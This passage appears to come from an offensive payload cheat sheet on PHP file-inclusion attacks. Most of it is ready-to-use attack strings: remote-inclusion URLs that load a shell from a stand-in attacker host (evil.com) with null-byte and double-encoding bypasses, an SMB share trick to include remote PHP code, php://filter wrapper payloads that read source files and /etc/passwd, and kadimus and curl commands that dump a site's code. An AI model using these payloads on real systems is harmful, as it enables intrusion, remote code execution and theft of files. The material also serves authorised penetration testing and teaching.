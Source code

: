 Most of the filter bypasses from LFI section can be reused for RFI.

```
http://example.com/index.php?page=http://evil.com/shell.txt
```

### **Null byte** ###

```
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### **Double encoding** ###

```
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### **Bypass allow\_url\_include** ###

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

## **LFI / RFI using wrappers** ##

### **Wrapper php://filter** ###

The part "php://filter" is case insensitive

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`:

* Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
* deflate then base64encode (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```
